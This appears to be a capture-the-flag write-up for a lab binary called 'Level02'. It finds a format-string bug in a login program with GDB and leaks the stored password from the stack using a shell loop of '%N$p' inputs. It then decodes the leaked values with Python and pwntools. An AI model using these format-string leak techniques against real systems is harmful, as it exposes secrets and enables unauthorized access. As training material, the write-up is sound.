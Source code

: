 # Level02

First step - testing the program

    $ ./level02 
    ===== [ Secure Access System v1.0 ] =====
    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: coucou
    --[ Password: coucou
    *****************************************
    coucou does not have access!

Ask a username and password

Start in GDB

Lot of things, fopen and fread on the password file. And we can see a format string at `main+654`. The printf call a variable directly

    0x0000000000400a96 <+642>:	lea    rax,[rbp-0x70]
    0x0000000000400a9a <+646>:	mov    rdi,rax
    0x0000000000400a9d <+649>:	mov    eax,0x0
    0x0000000000400aa2 <+654>:	call   0x4006c0 <printf@plt>

Try to print the stack with this format string

    $ for(( i = 1; i < 42; i++)); do echo "$i - %$i\$p" | ./level02 | grep does; done

    1 - 0x7fffffffe3e0 does not have access!
    .....
    22 - 0x756e505234376848 does not have access!
    23 - 0x45414a3561733951 does not have access!
    24 - 0x377a7143574e6758 does not have access!
    25 - 0x354a35686e475873 does not have access!
    26 - 0x48336750664b394d does not have access!
    .....
    40 - 0x2900000000 does not have access!
    41 - 0x602010 does not have access!

We can see something interesting starting at position 22, like a long string

Convert the strings in hex

    $ python -c 'print "756e505234376848".decode("hex")[::-1]'
    Hh74RPnu
    $ python -c 'print "45414a3561733951".decode("hex")[::-1]'
    Q9sa5JAE
    $ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
    XgNWCqz7
    $ python -c 'print "354a35686e475873".decode("hex")[::-1]'
    sXGnh5J5
    $ python -c 'print "48336750664b394d".decode("hex")[::-1]'
    M9KfPg3H

It's very similar to a password, concate all the strings and try

`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

Good!

We can do it faster with the python pwntools library

    python -c 'from pwn import *; print p64(0x756e505234376848) + p64(0x45414a3561733951) + p64(0x377a7143574e6758) + p64(0x354a35686e475873) + p64(0x48336750664b394d)'
